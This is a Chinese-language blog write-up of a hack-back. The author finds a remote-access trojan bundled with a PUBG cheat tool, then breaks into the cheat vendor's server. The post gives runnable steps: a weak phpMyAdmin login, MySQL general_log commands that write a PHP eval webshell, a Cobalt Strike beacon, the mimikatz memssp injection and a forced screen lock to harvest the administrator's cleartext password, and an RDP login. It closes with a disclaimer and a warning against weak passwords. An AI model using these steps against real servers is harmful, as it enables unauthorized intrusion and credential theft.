记一次对PUBG吃鸡外挂病毒的反制过程
0X00 事件前言
这事还要从一只蝙蝠开始说起~...........疫情的原因在家闲的翻箱倒柜，翻出了这么个玩意，没错这就是“压枪神器”想当初我把把落地成盒又在某宝铺天盖地的推送下，忍痛割爱花了百来块钱买了这神器。
买回来后开始后悔了，经过简单的观察分析此USB的行为，并非啥智能压枪芯片，实际上就是一个软件加密狗的USB加密了商家给发的无后坐软件，通过对某宝搜索加密狗USB看看这价格，属实暴利。
0X01 故事开始：
因翻出了此USB加密狗，心血来潮想开把游戏试试还有没有效果，进入商家之前提供的下载地址下载软件，这次幸运的忘了关杀毒软件，哦豁？？这是嘛呀，这图标咋这么熟悉呢，这不是赤裸裸的远控吗，难怪商家之前一直强调要先关了杀毒软件在打开，原来藏着这么大的猫腻。

之前也一直傻愣愣的把杀毒软件都关了才开始玩的，USB是从去年四月份购入的，合着当了差不多一年的肉鸡了，坑我钱封我号就算了还拿我当肉鸡使，这谁受得了必须得搞。
0X02 信息收集
二话不说直接丢到微步沙箱分析一波看看能不能挖出什么重要的信息，软件的持久化跟读取系统信息这类的高危操作行为，确定远控无疑了。


再翻翻有没有跟软件交互的ip或者URL做为入手点，果不其然在大量的URL链接中发现了一条开着http协议的ip地址。

访问之~其http://10x.xx.xx.xx/1/1.txt内容就是软件上的公告，确定了这台ip是软件的服务器没跑了。

既然开了web的服务，直接上dirmap强大的目录探测工具看看能不能跑出啥重要信息，速度很快不一会探测出了PHPmyadmin等信息。

直接复制路径访问，习惯性的一波弱口令root/root给进去了.......像这类的软件作者安全意识很低几乎没有，因为没有人去抓包去分析流量很难发现背后所交互的ip，果然又是一套phpStudy搭建起来的web服务。

0X03 Getshell
因为已经拿到了phpmyadmin的数据库且还是root权限的，可利用数据库的日志导出功能导出一句话php。
先手动开启日志set global general_log='on'

检查是否开启成功show variables like "general_log%"

设置日志文件输出的路径，结合PHPinfo文件得到网站的绝对路径，直接输出到web路径下。
set global general_log_file ="C:\phpStudy\PHPTutorial\WWW\info.php"

写入一句话，输出到日志文件中。select '<?php eval($_POST['tools']);?>'
菜刀连接上刚刚导出的一句话。

0X03 权限提升
到这里就已经拿到了webshell，但shell 的权限还太过于小我们的目标是拿下对方的系统权限，这里我用cs上线方便后续的操作，cs生成上线程序“splww64.exe”，利用菜刀的虚拟终端管理运行我们的程序。

过了几秒Cs这边也上线了。

权限到手后接下来就是激动人心的读取密码了，当然我们已经有了Administrator的权限可以自己添加个新用户，但这样会引起管理员的注意。
这里我们用cs自带的mimikatz来抓取用户的登陆密码，但很遗憾的是对方服务器是Windows Server 2012 R2版本的，Windows Server 2012 R2已经修复了以前从内存获取密码的漏洞，并且IPC$的远程认证方式也改变了，导致没办法进行hash注入，因为默认不存储LM hash ，也只能抓取NTLM hash ，基本上也是很难破解成功的。

0X04 巧取密码
难道就这样半途而废了么，不不不，敲黑板敲黑板了，Mimikatz –内存中的SSP，当用户再次通过系统进行身份验证时，将在System32中创建一个日志文件，其中将包含纯文本用户密码，此操作不需要重启目标机子，只需要锁屏对方再登陆时即可记录下明文密码，需另传mimikatz.exe程序到目标机子，然后在cs终端执行C:/mimikazt.exe privilege::debug misc::memssp exit当看到Injected =）的时候，表明已经注入成功。

接下来就是使对方的屏幕锁屏，终端键入rundll32.exe user32.dll,LockWorkStation命令。

过了许久.....许久....再次使用net user Administrator查看用户登陆情况。

在管理员再次输入密码登录时，明文密码会记录在C:\Windows\System32\mimilsa.log文件，在查看目标机子产生的log文件时间刚好对应得上，下载到本地打开之~。


0X05 登陆系统
目标机子的明文密码已经取到手了，接下来上nmap全端口扫描出RDP远程登陆端口，执行nmap -p 1-65355 10x.xx.xx.xx，可看到目标机子的端口是默认的3389端口。

登陆之~目前已有两千多用户了.....也可以确切的说两千多肉鸡了。

知识点:
提取exe程序交互的ip或者URL作为入手点。
Phpmyadmin日志导出获取webshell。
Mimikatz表明注入取得明文password。
0X06 总结
因一条root/root口令导致后面一连串的控制权限提升，应当增强网络安全意识，排查自己所对外开放的资产服务，关闭或修改本身的端口，拒绝弱口令！拒绝弱口令！拒绝弱口令！
*严正声明：本文仅限于技术讨论与分享，严禁用于非法途径。

点赞，转发，在看